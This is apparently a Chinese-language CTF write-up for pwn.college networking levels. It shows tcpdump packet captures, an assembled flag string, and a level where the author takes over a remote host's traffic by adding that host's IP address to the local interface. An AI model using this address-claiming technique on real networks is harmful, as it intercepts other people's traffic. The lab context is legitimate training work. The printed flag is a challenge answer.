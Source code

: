 ```
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b0 feb5 c988  ....zi.j........
        0x0020:  8018 01fe d6df 0000 0101 080a f556 74b8  .............Vt.
        0x0030:  4715 c921 6f                             G..!o
01:32:12.538387 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 7:8, ack 8, win 510, options [nop,nop,TS val 4116084897 ecr 1192611083], length 1
        0x0000:  4500 0035 9484 4000 4006 923a 0a00 0002  E..5..@.@..:....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b1 feb5 c989  ....zi.j........
        0x0020:  8018 01fe d20a 0000 0101 080a f556 78a1  .............Vx.
        0x0030:  4715 cd0b 6c                             G...l
01:32:13.539649 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 8:9, ack 9, win 510, options [nop,nop,TS val 4116085898 ecr 1192612084], length 1
        0x0000:  4500 0035 9485 4000 4006 9239 0a00 0002  E..5..@.@..9....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b2 feb5 c98a  ....zi.j........
        0x0020:  8018 01fe ca36 0000 0101 080a f556 7c8a  .....6.......V|.
        0x0030:  4715 d0f4 6c                             G...l
01:32:14.540780 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 9:10, ack 10, win 510, options [nop,nop,TS val 4116086899 ecr 1192613085], length 1
        0x0000:  4500 0035 9486 4000 4006 9238 0a00 0002  E..5..@.@..8....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b3 feb5 c98b  ....zi.j........
        0x0020:  8018 01fe c962 0000 0101 080a f556 8073  .....b.......V.s
        0x0030:  4715 d4dd 65                             G...e
01:32:15.541382 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 10:11, ack 11, win 510, options [nop,nop,TS val 4116087900 ecr 1192614086], length 1
        0x0000:  4500 0035 9487 4000 4006 9237 0a00 0002  E..5..@.@..7....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b4 feb5 c98c  ....zi.j........
        0x0020:  8018 01fe bf8e 0000 0101 080a f556 845c  .............V.\
        0x0030:  4715 d8c6 67                             G...g
01:32:16.542597 eth0  Out IP 10.0.0.2.31337 > 10.0.0.3.49258: Flags [P.], seq 11:12, ack 12, win 510, options [nop,nop,TS val 4116088901 ecr 1192615087], length 1
        0x0000:  4500 0035 9488 4000 4006 9236 0a00 0002  E..5..@.@..6....
        0x0010:  0a00 0003 7a69 c06a f4c7 a8b5 feb5 c98d  ....zi.j........
        0x0020:  8018 01fe b9ba 0000 0101 080a f556 8845  .............V.E
        0x0030:  4715 dcaf 65                             G...e
```
我们就把最后一位拼起来就行了，反正这一步大概有点儿烦，可以写脚本，也可以自己手动复制:(
```
# 好吧，我脚本没写对，自己手动复制的，尼玛
pwn.college{kNJHOFI1VRpp7QOATsbMSjGQiQp.dRjNzMDL2QjMyMzW}
```

## level7 Hijack traffic from a remote host by configuring your network interface

```
tcpdump -i any
# 发现10.0.0.4一直在发送请求。这时候我骗它应该就行了。
ip addr add 10.0.0.2/8 dev eth0
```
然后发现了这些包
```
listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
15:07:21.562729 eth0  B   ARP, Request who-has 10.0.0.2 tell 10.0.0.4, length 28
15:07:21.562752 eth0  Out ARP, Reply 10.0.0.2 is-at fa:9a:ce:e8:ef:b2 (oui Unknown), length 28
15:07:21.562833 eth0  In  IP 10.0.0.4.37984 > 10.0.0.2.31337: Flags [S], seq 1279607758, win 64240, options [mss 1460,sackOK,TS val 1986706165 ecr 0,nop,wscale 7], length 0
15:07:21.562843 eth0  Out IP 10.0.0.2.31337 > 10.0.0.4.37984: Flags [R.], seq 0, ack 1279607759, win 0, length 0
15:07:21.639815 lo    In  IP localhost.53883 > 127.0.0.11.domain: 51406+ PTR? 2.0.0.10.in-addr.arpa. (39)
15:07:21.639846 lo    In  IP 127.0.0.11 > localhost: ICMP 127.0.0.11 udp port domain unreachable, length 75
15:07:21.639911 lo    In  IP localhost.39242 > 127.0.0.11.domain: 51406+ PTR? 2.0.0.10.in-addr.arpa. (39)
```